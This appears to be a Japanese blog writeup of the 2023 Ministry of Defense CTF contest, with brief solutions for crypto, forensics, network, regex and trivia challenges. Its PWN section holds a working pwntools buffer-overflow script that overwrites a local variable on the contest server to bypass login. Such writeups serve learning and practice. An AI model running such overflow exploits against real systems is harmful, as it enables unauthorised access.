 +++
title = "防衛省サイバーコンテスト2023 writeup"
date = "2023-8-6"
description = "2023/8/6似開催された防衛省サーバーコンテストのwriteupです。"
draft = false
header_img = ""
toc = true
tags = ["CTF","writeup"]
comment = true
+++

2023年8月6日に行われた防衛省が主催のCTF大会、防衛省サーバーコンテストに参加しました。  
難易度は中級〜上級といったところでしょうか。様々なジャンルの問題がありました。  
個人的には初めてPWNの問題を解くことができてめちゃくちゃ嬉しかったです。    
ただ、終了時間と同時に問題文すら見れなくなってしまったので、もう少し解けなかった問題の復習ができる時間とかを確保してくれたらとても嬉しかったです。  
wirteup用の問題文のスクショとかも撮ってなかったので、とっても簡易的なものになってます。

## CRYPT
### Simple Substitution Cipher
ROT13でした。

### Substitution Cipher
ヴィジュネル暗号でした。
問題文にあった、`ggcp{wIR2AuVebMyR}`は`flag{*******}`となるので鍵は`bvcj`となることがわかりました。

## Forensics
### The Place of The First Secret Meeting
画像が与えられます。問題文からてっきり後ろのマンションの名前を入れればいいと勘違いしてたのですが、どでかく存在しているやぐらの名前を入れれば良かったことに気づきました笑
→うしとらやぐら

### The Deleted Confidential File
vhdファイルが与えられます。
`Autopsy`を使ってvhdファイルを読み込んでみると、削除済みの一覧に`重要.zip`が見つかりました。バイナリエディタで見てみるとフラグが隠れていました。


## NW
### Analysis
2023/4/7 12:26:25,119970,10.200.200.15,TCP_TUNNEL/200,8099213,CONNECT,amazon_co_jp.ipa-info.net:22,HIER_DIRECT/2.57.80.99,-


## PROGRAMING
### Regex Exercise
`grep -E 'flag{Regexp.!![0-9]{2}S' regex-flags.txt `
としたら４択まで絞れました。

## TRIVIA
### Threat
ChatGPTに問題文を丸投げしたら答えてくれました。

### Behavior
同じくChatGPT

### Inventor
同じくChatGPT

## PWN
### Auth
はじめてPWNが解けました！  
めちゃくちゃ嬉しかったです。  
問題としてはBOFでローカル変数を書き換える問題。  
以下のようなコードを書きました。
```python
from pwn import *

ip = '10.10.10.15'
port = 1001
payload = b'a'*26
payload += p64(0x65757274)

r = remote(ip, port)

print(r.recvuntil(b'User: '))
usr = p64(0x6e696d6461)
print(r.sendline(usr))

print(r.recvuntil(b'Password: '))
print(r.sendline(payload))

res = r.recvall()
print(res)
```

## Web
### Basic
パケットキャプチャが与えられます。
TCPストリームの６番でBasic認証に `200 OK`を返している。

